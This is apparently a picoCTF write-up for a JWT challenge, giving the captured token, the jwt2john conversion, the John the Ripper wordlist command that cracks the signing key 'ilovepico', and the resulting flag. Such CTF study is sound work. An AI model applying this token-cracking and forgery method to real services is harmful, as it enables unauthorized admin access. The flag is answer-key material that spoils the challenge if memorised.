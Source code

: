 Write-Up
It's the jwt token.
We have a website that doesnt let log in as admin, but lets log in as a diff user. 
After logging in as a diff user, we get a jwt token, so all we need to do is to find the key of the jwt token, and change the value of name to 'admin', so I used a jwt cracker tool with john

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYXNkIn0.IVXHienlYe-IglDGEe3PCWiS3BJl5yzhlYLep1TlN0g' 
We need to make it a 'johnable" so I used this script - https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py
and got - johnKey = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYXNkIn0#2155c789e9e561ef888250c611edcf096892dc1265e72ce19582dea754e53748
and ran ~/src/john/run/john jwt.john --wordlist=/home/ido/Downloads/rockyou.txt
While jwt.john is the john token

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
key = 'ilovepico'

flag = picoCTF{jawt_was_just_what_you_thought_c84a0d3754338763548dfc2dc171cdd0}
